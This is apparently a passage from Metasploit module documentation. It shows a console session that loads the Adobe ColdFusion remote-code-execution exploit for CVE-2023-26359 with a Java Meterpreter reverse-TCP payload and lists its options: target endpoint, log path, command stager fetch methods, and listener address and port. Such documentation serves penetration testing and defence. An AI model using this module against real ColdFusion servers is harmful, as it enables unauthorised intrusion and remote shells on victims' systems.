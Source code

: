 ## Scenarios
### Generic Java (Adobe ColdFusion 2021 Update 5 on Windows Server 2022)
```
msf6 > use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26359
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > show options

Module options (exploit/multi/http/adobe_coldfusion_rce_cve_2023_26359):

   Name          Current Setting      Required  Description
   ----          ---------------      --------  -----------
   CFC_ENDPOINT  /cf_scripts/scripts  yes       The target ColdFusion Componen
                 /ajax/ckeditor/plug            t (CFC) endpoint
                 ins/filemanager/ied
                 it.cfc
   CF_LOGFILE    ../logs/coldfusion-  yes       The target log file, relative
                 out.log                        to the wwwroot folder.
   Proxies                            no        A proxy chain of format type:h
                                                ost:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), see https:
                                                //docs.metasploit.com/docs/usi
                                                ng-metasploit/basics/using-met
                                                asploit.html
   RPORT         8500                 yes       The target port (TCP)
   SSL           false                no        Negotiate SSL/TLS for outgoing
                                                 connections
   SSLCert                            no        Path to a custom SSL certifica
                                                te (default is randomly genera
                                                ted)
   URIPATH       /                    no        The URI to use for this exploi
                                                t
   VHOST                              no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic Java

```